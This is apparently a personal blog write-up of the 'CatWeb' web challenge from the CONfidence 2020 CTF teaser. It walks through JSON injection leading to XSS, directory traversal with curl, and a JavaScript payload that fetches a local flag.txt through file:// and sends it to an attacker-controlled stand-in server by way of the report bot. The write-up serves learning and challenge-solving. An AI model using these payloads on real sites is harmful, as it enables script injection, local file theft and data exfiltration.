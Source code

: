 ```yaml
---
title : "CONfidence 2020: CatWeb"
date : 2020-04-23T00:46:19-06:00
draft : false
author : "JamVie"
cover : "img/CONfidenceCover.png"
tags : ["writeups", "web"]
---
```


I participated in CONfidence CTF 2020 teasers in March of this year. I was focusing mainly on this problem, and it really helped me broaden my skills in JSON-related attacks! I have never seen many JSON injections before this, so this was welcome practise. 
<!--more-->

Let's Begin!
----
The link to the webpage is: ```http://catweb.zajebistyc.tf/```

{{< image src="/images/CatWeb_HomePage.png" alt="Login" position="center" style="border-radius: 8px;" >}}

We have a basic webpage with photos of cute cats filtered by their color. The drop down menu will give us black, red, grey and white cats. At the bottom is a report button, which will take whatever input we get, send it to some server, and respond to us that our report has been...well. Reported. 


Checking out the response content as I was clicking about the page showed me the requests for the "kind" (colour) of cats I chose based on the drop down menu. The request was just a small JSON string stipulating what kind I asked for, and I guess the server takes that input and returns whatever. 

```
curl "http://catweb.zajebistyc.tf/cats?kind=grey"
```

That got me thinking, can I ask for cats of a kind not in the drop down menu? 
Editing the request to change the kind from a colour to just absolute garbage...

```
curl "http://catweb.zajebistyc.tf/?kind=djfa"
```

{{< image src="/images/NotFound.png" alt="Login" position="center" style="border-radius: 8px;" >}}

Aha! Our text got echoed back to us in the response. There isn't any input validation in the JSON request! This must be a way in. 

To test how far I could go with it, I decided to hide an XSS in the JSON, seeing as how the URL we are taken to after any sort of response also has the JSON text in it. 

I typed this in as the URL:

```
http://catweb.zajebistyc.tf/?","status":"ok","content":["\"<img src=deadbeef onerror=alert(document.title)> </img>],"ignore":"
```

If there was a JSON vulnerability here, then going to this website would load up an alert with the title of the webpage ("my cats"). What would happen is it would attempt to load an image from the source called "deadbeef", and when it can't find the source, it would load as an error. If the image loaded as an error, pop up an alert with the name of the webpage. 


{{< image src="/images/XSSJsonInCatWeb.png" alt="Login" position="center" style="border-radius: 8px;" >}}


:) Great! There is definitely JSON injection in play here. Let's see what we can do with it! 

Using curl to delve deeper into the webpage, I tried to make it list directories with the command: 

```
curl "http://catweb.zajebistyc.tf/cats?kind=.."
```

{{< image src="/images/CatWebTemplates.png" alt="Login" position="center" style="border-radius: 8px;" >}}

I traversed through the directories, but in the templates subfolder...


{{< image src="/images/CatWebFlagLocn.png" alt="Login" position="center" style="border-radius: 8px;" >}}


Aha! The ```flag.txt``` file is in there. Now we just need to somehow read it from the browser. The fact that I was able to find the local files like this means something: the path of templates looks alot like ```file:///app/templates/flag.txt``` - Note the root path name: file. A same-origin policy here could treat all files with this starting origin as from the same place. 

We can use this to our advantage: create an XSS attack on the ```file://``` path.

Since an XSS endpoint was found using the JSON vulnerabilities in the URL, and there exists a report function, this is all a pretty classic XSS attack from here.


Craft our payload script to fetch the flag.txt from ```file://```. Here's mine called (xss.js):

```javascript
url='http://yourServer.com/6060?'
fetch('file:///app/templates/flag.txt').then(resp=>resp.text()).then(flag=>fetch(url+(btoa(flag) || 'Nothing')));
```


Report this url with our payload in it:

```
file:///app/templates/index.html?", "status": "ok", "content":["\u0022><script src=http://yourServer.com:6060/xss.js></script>"],"ignore":"
```

Now we wait for our server to retrieve the flag for us once someone checks out our reported URL :)

```flag:p4{can_i_haz_a_piece_of_flag_pliz?}```


This was a cool challenge to do that really helped me stretch my XSS skills and teach me how to be thorough when scoping out webpages for possible XSS attacks. I quite enjoyed this challenge! Thank you to [P4](https://p4.team/) for hosting the CONfidence 2020 teaser :) 


Jam 


References
----
feature image credit: [Peng Louis](https://www.pexels.com/@peng-louis-587527) on Pexels